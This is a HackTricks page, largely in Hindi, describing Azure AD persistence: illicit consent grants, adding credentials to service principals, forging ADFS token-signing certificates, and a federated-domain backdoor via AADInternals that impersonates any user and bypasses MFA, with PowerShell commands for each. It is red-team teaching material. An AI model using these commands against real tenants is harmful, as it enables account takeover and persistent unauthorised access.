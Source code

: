 # Az - Persistence

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### Illicit Consent Grant

डिफ़ॉल्ट रूप से, कोई भी उपयोगकर्ता Azure AD में एक एप्लिकेशन पंजीकृत कर सकता है। इसलिए आप एक एप्लिकेशन पंजीकृत कर सकते हैं (केवल लक्षित टेनेट के लिए) जिसे उच्च प्रभाव की अनुमतियों की आवश्यकता होती है जिसमें व्यवस्थापक की सहमति (यदि आप व्यवस्थापक हैं तो इसे अनुमोदित करें) - जैसे कि किसी उपयोगकर्ता की ओर से मेल भेजना, भूमिका प्रबंधन आदि। यह हमें **फिशिंग हमलों को निष्पादित करने** की अनुमति देगा जो सफलता की स्थिति में बहुत **लाभदायक** होंगे।

इसके अलावा, आप उस एप्लिकेशन को अपने उपयोगकर्ता के रूप में स्वीकार कर सकते हैं ताकि उस पर पहुंच बनाए रख सकें।

### Applications and Service Principals

एप्लिकेशन प्रशासक, GA या microsoft.directory/applications/credentials/update अनुमतियों के साथ एक कस्टम भूमिका के विशेषाधिकारों के साथ, हम एक मौजूदा एप्लिकेशन में क्रेडेंशियल (गुप्त या प्रमाणपत्र) जोड़ सकते हैं।

यह **उच्च अनुमतियों वाले एप्लिकेशन को लक्षित करना** या **उच्च अनुमतियों के साथ एक नया एप्लिकेशन जोड़ना** संभव है।

एप्लिकेशन में जोड़ने के लिए एक दिलचस्प भूमिका होगी **विशेषाधिकार प्राप्त प्रमाणीकरण प्रशासक भूमिका** क्योंकि यह वैश्विक प्रशासकों का **पासवर्ड रीसेट** करने की अनुमति देती है।

यह तकनीक **MFA को बायपास** करने की भी अनुमति देती है।

{% code overflow="wrap" %}
```powershell
$passwd = ConvertTo-SecureString "J~Q~QMt_qe4uDzg53MDD_jrj_Q3P.changed" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential("311bf843-cc8b-459c-be24-6ed908458623", $passwd)
Connect-AzAccount -ServicePrincipal -Credential $credentials -Tenant e12984235-1035-452e-bd32-ab4d72639a
```
{% endcode %}

* प्रमाणपत्र आधारित प्रमाणीकरण के लिए

{% code overflow="wrap" %}
```powershell
Connect-AzAccount -ServicePrincipal -Tenant <TenantId> -CertificateThumbprint <Thumbprint> -ApplicationId <ApplicationId>
```
{% endcode %}

### Federation - Token Signing Certificate

**DA विशेषाधिकार** के साथ ऑन-प्रेम AD पर, **नए Token signing** और **Token Decrypt certificates** बनाना और आयात करना संभव है जिनकी वैधता बहुत लंबी होती है। यह हमें **किसी भी उपयोगकर्ता के रूप में लॉग-इन** करने की अनुमति देगा जिसका ImuutableID हमें पता है।

**ADFS सर्वर(s)** पर **DA के रूप में** नए certs बनाने के लिए नीचे दिए गए कमांड को चलाएँ (डिफ़ॉल्ट पासवर्ड 'AADInternals'), उन्हें ADFS में जोड़ें, ऑटो रोलओवर को अक्षम करें और सेवा को पुनः प्रारंभ करें:
```powershell
New-AADIntADFSSelfSignedCertificates
```
फिर, Azure AD के साथ प्रमाणपत्र जानकारी को अपडेट करें:
```powershell
Update-AADIntADFSFederationSettings -Domain cyberranges.io
```
### Federation - Trusted Domain

GA विशेषाधिकार के साथ एक टेनेट पर, **एक नया डोमेन जोड़ना** संभव है (जिसे सत्यापित किया जाना चाहिए), इसके प्रमाणीकरण प्रकार को फेडरेटेड पर कॉन्फ़िगर करना और डोमेन को **एक विशिष्ट प्रमाणपत्र** (नीचे दिए गए कमांड में any.sts) और जारीकर्ता पर **विश्वास** करना:
```powershell
# Using AADInternals
ConvertTo-AADIntBackdoor -DomainName cyberranges.io

# Get ImmutableID of the user that we want to impersonate. Using Msol module
Get-MsolUser | select userPrincipalName,ImmutableID

# Access any cloud app as the user
Open-AADIntOffice365Portal -ImmutableID qIMPTm2Q3kimHgg4KQyveA== -Issuer "http://any.sts/B231A11F" -UseBuiltInCertificate -ByPassMFA$true
```
## संदर्भ

* [https://aadinternalsbackdoor.azurewebsites.net/](https://aadinternalsbackdoor.azurewebsites.net/)

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **हमारे** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**telegram समूह**](https://t.me/peass) में शामिल हों या **Twitter** 🐦 पर हमें **फॉलो करें** [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PR सबमिट करें।

</details>
{% endhint %}

